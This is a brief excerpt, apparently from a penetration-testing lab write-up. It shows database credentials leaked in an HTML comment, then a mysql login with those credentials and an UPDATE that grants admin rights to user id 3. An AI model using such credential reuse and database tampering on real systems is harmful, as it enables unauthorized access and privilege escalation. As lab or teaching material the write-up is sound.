 ![](../../../.gitbook/assets/image%20%2813%29.png)

```text
<!-- = '127.0.0.1'; = 'dbuser'; = 'xXxyYyzZz789789)))'; = 'footracking'; = mysqli_connect(, , , );-->
```

```text
mysql --host=172.16.64.92 --user=dbuser --password=xXxyYyzZz789789))) --port 63306 footracking
> update users set adm='yes' where id=3;
```
